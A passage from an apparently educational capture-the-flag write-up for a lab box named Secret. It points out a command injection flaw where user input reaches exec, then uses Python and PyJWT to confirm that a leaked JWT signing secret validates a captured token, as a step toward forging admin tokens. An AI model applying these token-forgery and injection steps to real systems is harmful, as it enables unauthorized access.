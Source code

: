 It only works if the username is theadmin, but then it can fetch Git logs. The problem is that this code has a command injection vulnerability in it, as it builds a string with user input and then passes it to `exec`.

## Shell as dasith

### Forge JWT

#### Test Token

I got a JWT earlier, so I can use to test if this is still the secret in use on Secret. I like to use Python for this kind of thing, dropping into a Python shell by running `python3`. I’ll need PyJWT installed as well (`pip3 install pyjwt`).

First I’ll import the package and save my token in a variable named `token` and the secret in a variable named `secret` to make them easier to work with:

```

>>> import jwt
>>> token = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoiMHhkZjB4ZGYiLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.rMfMsdYkfSbl4hr1RJFwY3qWfrA3LSWVlzUON_9EW_A'
>>> secret = 'gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE'

```

Now the `jwt.decode` function will decode the token if the secret is right (if this errors out saying an “algorithms” value is required, see [update below](#note-on-pyjwt-versions)):

```

>>> jwt.decode(token, secret)
{'_id': '617825332c2bab0445c48462', 'name': '0xdf0xdf', 'email': 'dfdfdfdf@secret.com', 'iat': 1635263828}

```

To show this only works if the secret is correct, I’ll change the last character of `secret` from “M” to “m” and try again. It throws an `InvalidSignatureError` exception:

```

>>> jwt.decode(token, secret[:-1]+'m')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/home/oxdf/.local/lib/python3.9/site-packages/jwt/api_jwt.py", line 119, in decode
    decoded = self.decode_complete(jwt, key, algorithms, options, **kwargs)
  File "/home/oxdf/.local/lib/python3.9/site-packages/jwt/api_jwt.py", line 90, in decode_complete
    decoded = api_jws.decode_complete(
  File "/home/oxdf/.local/lib/python3.9/site-packages/jwt/api_jws.py", line 149, in decode_complete
    self._verify_signature(signing_input, header, signature, key, algorithms)
  File "/home/oxdf/.local/lib/python3.9/site-packages/jwt/api_jws.py", line 236, in _verify_signature
    raise InvalidSignatureError("Signature verification failed")
jwt.exceptions.InvalidSignatureError: Signature verification failed

```
